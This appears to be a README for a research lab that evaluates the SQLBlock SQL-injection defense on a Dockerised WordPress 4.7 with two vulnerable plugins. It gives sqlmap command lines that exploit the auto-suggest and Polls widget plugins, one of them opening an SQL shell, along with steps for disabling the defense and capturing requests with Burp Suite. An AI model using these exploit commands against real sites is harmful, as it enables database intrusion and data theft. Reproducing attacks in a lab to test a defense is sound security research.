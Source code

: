 # SQLBlock defense deployed on WordPress's plugins

You can download an already setup docker container from the below link
[wordpress.tar]{https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom}

## Running the docker
To run the docker, you should first load the tarball file using the following command.
```bash
docker load -i sqlblock_wordpress.tar
```

You can use the following command to run the docker container.
```bash
docker run --name sqlblock-container -d --rm -p 9000:80 -it sqlblock_wordpress
```

This docker container includes WordPress 4.7 and two plugins which has SQLi vulnerabilities. The docker container is already loaded with the profile of benign browsing in WordPress which includes only simple actions.


## Exploit the vulnerabilities

In the prepared docker container, SQLBlock is defending against the SQli requests. You can turn off SQLBlock using the following command.
```bash
mysql -u root -e "UNINSTALL PLUGIN sqlblock"
```

You can turn SQLBlcok back on, either using the script called `enforce_profile` or you can run the following command.
```bash
mysql -u root -e "INSTALL PLUGIN sqlblock SONAME 'sqlblock.so'"
```

You can exploit the vulnerabilities in Poll widget and autosuggest plugin using sqlmap tool. You can download sqlmap from this [link]{https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom}.

# Auto-suggest vulnerability
You can run the following command to perform the SQLi exploit on auto-suggest plugin in WordPress.
```bash
./sqlmap-dev/sqlmap.py --flush-session -u "http://localhost:9000/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1" --technique BT --dbms MYSQL --risk 3 --level 5 -p wpas_keys --tamper space2comment --sql-shell
```

# Polls widget vulnerability

First, you need to record a benign request while you participate in poll. You can record the request using Burp suite tool downloaded from this [link]{https://portswigger.net/burp/communitydownload}.

- After running Burp suite, go to proxy tab and turn on intercepting mode. In the option tab you see the IP and port for the interception. You should modify your browser's proxy setting according to the information in the proxy tab of Burp suite.
- Web browsers by default do not intercept the local requests. To change that you should follow the instruction for intercepting Localhost traffic. You can follow the instruction for Firefox [here]{https://security.stackexchange.com/questions/142552/how-to-configure-burp-suite-for-localhost-application}
- Visit the URL <http://localhost:9000/?p=4>. There is poll in this blog post, which you can submit your answer and record the request sent to the server using Burp suite
- After observing the request in Burp suite, you can right-click and use the "save to file" option to save the request for submitting an answer to the poll.


To exploit the vulnerability in Polls widget you can use the following command. Note that you should replace the "path_to_saved_requset".

```bash
./sqlmap-dev/sqlmap.py --flush-session -r %path_to_saved_request% -p question_id --tamper space2comment
```

